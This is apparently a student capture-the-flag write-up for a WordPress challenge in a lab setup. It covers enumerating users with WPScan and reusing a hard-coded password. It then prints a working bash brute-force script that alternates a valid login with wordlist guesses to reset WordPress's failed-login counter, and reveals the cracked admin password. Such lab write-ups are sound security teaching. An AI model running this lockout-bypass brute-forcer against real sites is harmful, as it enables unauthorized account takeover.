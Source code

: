 # CyberCTF_Assignment_3

### 7. Challenge: WordPress Website (Hard)

* The challenge requests to find the user names and passwords of the provided Website.
* With the tool “WPSscan” we scan the Website and get the associated users:
	* **“admin”**
	* **“think”**

![R3_C7_1](https://user-images.githubusercontent.com/124681007/217726362-db19feda-8185-4aa2-9722-955912b9c9d7.png)

![R3_C7_2](https://user-images.githubusercontent.com/124681007/217726419-6c06d2bb-1ee9-4552-ae97-867e1be98468.png)

* We can get the password hard-coded of the user “think” from the Webite files “123”.
* Now we have a way to get into the Website and in combination with the password list provided, we can automate the password search:

![R3_C7_3](https://user-images.githubusercontent.com/124681007/217726968-cf53b41a-718a-440d-9f8c-e0280a20af3a.png)

* The script has loop with a curl instruction to log on the Website, the localhost IP: **172.17.100.1**

		#!/bin/bash

		list=$1
		x=1
		RESPONSE=""

		#The user we know
		USR1="think"
		PASS1="123"
		#The user and password we are looking for on the list provided on $1
		USR2="admin"
		PASS2=""

		echo -e "\n" "Checking the password of the user "$USR2"..."

		while read -r line; do
			#Reading the file and assign it as a password on the variable PASS2
			PASS2=$line
				
			#The first attempt is with the user and password we know for a successful login that will reset the failed attempt counter
			RESPONSE=$(curl -i -s -k -X $'POST' \
			-H $'Host: localhost' -H $'Content-Length: 107' -H $'Cache-Control: max-age=0' -H $'sec-ch-ua: \"Chromium\";v=\"109\", \"Not_A Brand\";v=\"99\"' -H $'sec-ch-ua-mobile: ?0' -H $'sec-ch-ua-platform: \"Windows\"' -H $'Upgrade-Insecure-Requests: 1' -H $'Origin: http://localhost' -H $'Content-Type: application/x-www-form-urlencoded' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-User: ?1' -H $'Sec-Fetch-Dest: document' -H $'Referer: http://localhost/cybersec/wp-login.php' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: close' \
				-b $'wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_ea3fd3d8b682fd160e70b2367abe99d8=think%7C1675444531%7CCWzWEGe9zeeApZ14ScLTgHtDjbIYvWu9KdidfzuXFOb%7C7f865bb96396cabc7c47a98ac5f55cefd5140a50224b0112e82fd3a1b5b8e287; wp-settings-time-2=1675271747' \
				--data-binary $'log='$USR1'&pwd='$PASS1'&wp-submit=Log+In&redirect_to=http%3A%2F%2Flocalhost%2Fcybersec%2Fwp-admin%2F&testcookie=1' \
				$'http://172.17.100.1/cybersec/wp-login.php' | grep -o "HTTP/1.1 302 Found")
	
			#This second attempt will try to login with the passwords provided for the second user
			RESPONSE=$(curl -i -s -k -X $'POST' \
			-H $'Host: localhost' -H $'Content-Length: 107' -H $'Cache-Control: max-age=0' -H $'sec-ch-ua: \"Chromium\";v=\"109\", \"Not_A Brand\";v=\"99\"' -H $'sec-ch-ua-mobile: ?0' -H $'sec-ch-ua-platform: \"Windows\"' -H $'Upgrade-Insecure-Requests: 1' -H $'Origin: http://localhost' -H $'Content-Type: application/x-www-form-urlencoded' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-User: ?1' -H $'Sec-Fetch-Dest: document' -H $'Referer: http://localhost/cybersec/wp-login.php' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: close' \
				-b $'wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_ea3fd3d8b682fd160e70b2367abe99d8=think%7C1675444531%7CCWzWEGe9zeeApZ14ScLTgHtDjbIYvWu9KdidfzuXFOb%7C7f865bb96396cabc7c47a98ac5f55cefd5140a50224b0112e82fd3a1b5b8e287; wp-settings-time-2=1675271747' \
				--data-binary $'log='$USR2'&pwd='$PASS2'&wp-submit=Log+In&redirect_to=http%3A%2F%2Flocalhost%2Fcybersec%2Fwp-admin%2F&testcookie=1' \
				$'http://172.17.100.1/cybersec/wp-login.php' | grep -o "HTTP/1.1 302 Found")

			if [[ $RESPONSE == "HTTP/1.1 302 Found" ]]; then
				break
			fi
			x=$((x+1))
		done < <(grep "" $list)

		echo -e "\n     Response of successful login: "$RESPONSE
		echo -e "\n          Password found in line: = $x"
		echo "          The password is: = $PASS2"

* To void the security of the Website, we make a cycle with a successful login and another attempt with the password list until it gets a match.

> The password of the **“admin”** user is: **“#1mama”**
